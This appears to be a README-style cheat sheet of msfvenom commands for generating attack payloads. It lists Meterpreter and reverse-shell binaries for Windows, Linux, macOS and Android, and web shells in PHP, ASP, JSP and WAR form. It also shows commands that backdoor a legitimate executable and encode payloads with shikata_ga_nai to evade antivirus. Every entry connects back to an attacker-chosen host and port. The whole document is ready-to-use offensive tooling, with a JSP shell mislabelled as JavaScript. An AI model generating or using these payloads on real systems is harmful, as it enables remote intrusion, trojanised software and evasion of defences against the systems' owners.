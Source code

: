 <h1 align="centre"> Msfvenom-Cheat-Sheet</h1>
<p align="centre">
  A list of msfvenom commands
</p>

## Binaries
| Command       | Info           |
| ------------- |:-------------:|
|msfvenom -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f exe > example.exe | Creates a simple TCP Payload for Windows |
|msfvenom -p windows/meterpreter/reverse_http LHOST=(Your IP/DNS) LPORT=(Your Port) -f exe > example.exe | Creates a simple HTTP Payload for Windows |
|msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f elf > example.elf | Creates a simple TCP Shell for Linux |
|msfvenom -p osx/x86/shell_reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f macho > example.macho | Creates a simple TCP Shell for Mac |
|msfvenom -p android/meterpreter/reverse/tcp LHOST=(Your IP/DNS) LPORT=(Your Port) R > example.apk | Creats a simple TCP Payload for Android |

## Web Payloads
| Command       | Info           |
| ------------- |:-------------:|
|msfvenom -p php/meterpreter_reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f raw > example.php | Creats a Simple TCP Shell for PHP |
|msfvenom -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f asp > example.asp | Creats a Simple TCP Shell for ASP |
|msfvenom -p java/jsp_shell_reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f raw > example.jsp | Creats a Simple TCP Shell for Javascript |
|msfvenom -p java/jsp_shell_reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f war > example.war | Creats a Simple TCP Shell for WAR |

## Windows Payloads
| Command       | Info           |
| ------------- |:-------------:|
|msfvenom -l encoders | Lists all avalaible encoders|
|msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f exe > example.exe | Binds an exe with a Payload (Backdoors an exe) | 
|msfvenom -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -e x86/shikata_ga_nai -b '\x00' -i 3 -f exe > example.exe | Creates a simple TCP payload with shikata_ga_nai encoder |
|msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe > example.exe | Binds an exe with a Payload and encodes it |
